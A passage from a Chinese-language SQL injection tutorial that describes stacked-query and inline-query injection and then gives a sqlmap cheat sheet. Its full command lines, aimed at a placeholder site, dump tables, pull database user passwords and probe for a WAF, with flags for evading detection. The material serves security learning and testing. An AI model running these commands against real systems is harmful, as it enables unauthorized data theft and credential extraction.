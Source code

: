 #### 5、堆查询的注入，使用;结束当前语句，在后面执行自己的语句，检测后面的语句是否执行来判断是否存在堆查询注入。

使用堆查询注入，向数据库插入一条数据。
![image.png](https://cdn.nlark.com/yuque/0/2020/png/1355955/1588142820133-a55338c6-e91c-4131-842e-eff1c6cee0e9.png#align=left&display=inline&height=410&margin=%5Bobject%20Object%5D&name=image.png&originHeight=410&originWidth=909&size=87571&status=done&style=none&width=909)
![image.png](https://cdn.nlark.com/yuque/0/2020/png/1355955/1588142874258-f8b728c9-c9b8-4d4f-a0b6-c8f0b255ca86.png#align=left&display=inline&height=374&margin=%5Bobject%20Object%5D&name=image.png&originHeight=374&originWidth=667&size=49587&status=done&style=none&width=667)

#### 6、内联查询注入，在查询语句中嵌套sql语句，检测嵌套的语句是否执行来判断是否存在内联查询注入。

![image.png](https://cdn.nlark.com/yuque/0/2020/png/1355955/1588141996003-68757438-ff17-4a9c-92a1-d71136698b2e.png#align=left&display=inline&height=472&margin=%5Bobject%20Object%5D&name=image.png&originHeight=472&originWidth=1015&size=55495&status=done&style=none&width=1015)

## 注入工具

### 1、 sqlmap

#### sqlmap支持的数据库有

MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase和SAP MaxDB

#### sqlmap常用命令

```sql
--data="name=value"         # post 注入
--cookie="id=1"             # cookie 注入
--random-agent              # 随机的HTTP头
--delay 1                   # 发包延迟一秒
-p                          # 指定测试的参数(s)
--dbms                      # 指定数据库
--os                        # 指定操作系统
--tamper                    # 使用脚本来注入数据
--level                     # 测试级别 (1-5, default 1)
--technique                 # 要使用的SQL注入技术
--count                     # 检索表的项数(s)
--eta                       # 显示每个输出的预计到达时间
--flush-session             # 刷新当前目标的会话文件
--mobile                    # 通过HTTP用户代理头模仿智能手机
```

#### sqlmap常用语法

```sql
# 获取当前数据库
python sqlmap.py -u "http://www.xxx.com/en/CompHonorBig.asp?id=7" --random-agent --current-db
# 获取当前数据库
python sqlmap.py -u "http://www.xxx.com/en/CompHonorBig.asp?id=7" --random-agent -D "数据库" --tables
# 获取当前字段
python sqlmap.py -u "http://www.xxx.com/en/CompHonorBig.asp?id=7" --random-agent -D "数据库" -T "表名" --columns
# 获取当前表数据
python sqlmap.py -u "http://www.xxx.com/en/CompHonorBig.asp?id=7" -D "数据库" -T "表名" -C "字段" --dump --random-agent
# 获取数据库当前用户和密码
python sqlmap.py -u "http://www.xxx.com/en/CompHonorBig.asp?id=7" --random-agent --current-user --passwords --is-dba
# 指定数据库和操作系统
python sqlmap.py -u "http://www.xxx.com/en/CompHonorBig.asp?id=7" --random-agent --dbms='mysql' --os='linux'
# 指定注入方式
python sqlmap.py -u "http://www.xxx.com/en/CompHonorBig.asp?id=7" --random-agent --technique="BEUSTQ"
# 检测waf
python sqlmap.py -u "http://www.xxx.com/en/CompHonorBig.asp?id=7" --random-agent --check-waf --identify-waf
```